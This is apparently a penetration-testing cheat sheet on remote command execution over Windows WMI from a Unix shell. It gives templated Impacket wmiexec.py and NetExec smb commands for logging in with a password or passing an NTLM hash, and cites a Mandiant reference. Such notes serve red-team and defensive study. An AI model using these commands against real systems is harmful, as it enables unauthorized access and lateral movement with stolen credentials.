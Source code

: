 # Unix Shell

## 01 - Impacket

- Authenticate via impacket script with WMIExec

```
$ wmiexec.py <username>:<password>@<IP> [-codecs <codec>]
```

- Pass the Hash

```
$ wmiexec.py <username>@<IP> -hashes <ntlm_hash> [-codecs <codec>]

$ wmiexec.py [<domain>/]<username>@<IP> -hashes aad3b435b51404eeaa3b435b51404ee:<nt_hash> [-codecs <codec>]

$ wmiexec.py [<domain>/]<username>@<IP> -hashes :<nt_hash> [-codecs <codec>]
```

## 02 - NetExec

```
$ netexec smb <IP>/<CIDR> --exec-method wmiexec -u "<username>" -p "<password>" [-d <domain> | --local-auth]
```

- Pass the Hash

```
$ netexec smb <IP>/<CIDR> --exec-method wmiexec -u "<username>" -H "<nt_hash>" [-d <domain> | --local-auth]
```

---
## References

- [Mandiant: Windows Management Instrumentation](https://www.mandiant.com/sites/default/files/2021-09/wp-windows-management-instrumentation.pdf)